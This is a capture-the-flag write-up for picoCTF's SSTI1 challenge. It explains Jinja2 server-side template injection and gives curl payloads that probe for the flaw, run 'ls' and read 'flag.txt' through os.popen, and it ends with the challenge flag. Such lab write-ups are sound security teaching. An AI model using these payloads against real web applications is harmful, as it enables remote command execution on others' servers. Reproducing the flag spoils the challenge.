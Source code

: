 
# 📝 SSTI1 Writeup

---

## 💡 Understanding Server-Side Template Injection (SSTI)

Server-Side Template Injection (SSTI) happens when a website processes your input as code, not just text. If exploited, this can allow you to run commands on the server.

---

## 🛠️ Solution Steps

### Step 1: Confirming SSTI and Gaining Remote Code Execution (RCE) 🕵️‍♀️🚀

First, we'll test if the input field is vulnerable to SSTI. If it is, we'll immediately try to list files on the server to confirm RCE. We'll assume the vulnerable parameter is named `announcement`.

1.  **Detecting SSTI (Optional but Recommended)**:
    We can send a simple arithmetic expression. If the server evaluates it, we know it's vulnerable.

    ```bash
    curl -X POST -d "announcement={{ 7*7 }}" [http://your-challenge-url.com/announce](http://your-challenge-url.com/announce)
    ```

    **Expected Output**: If vulnerable, the response will contain `49`.

2.  **Listing Files (Achieving RCE)**:
    Now, we'll use a Jinja2 payload to execute the `ls` command, which lists files in the current directory. This confirms we can run arbitrary commands.

    ```bash
    curl -X POST -d "announcement={{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}" [http://your-challenge-url.com/announce](http://your-challenge-url.com/announce)
    ```

    **Expected Output**: The website's response will show a list of files and directories. Look for `flag.txt` or similar files.

---

### Step 2: Retrieving the Flag 🚩

Once you've identified the flag file (e.g., `flag.txt`), use the `cat` command to read its contents.

1.  **Reading the Flag File**:
    Replace `flag.txt` with the actual flag filename if it was different from your `ls` output.

    ```bash
    curl -X POST -d "announcement={{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}" [http://your-challenge-url.com/announce](http://your-challenge-url.com/announce)
    ```

    **Expected Output**: The flag will be displayed in the website's response.

---

## 🎉 Flag

`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_df9a00a0}`



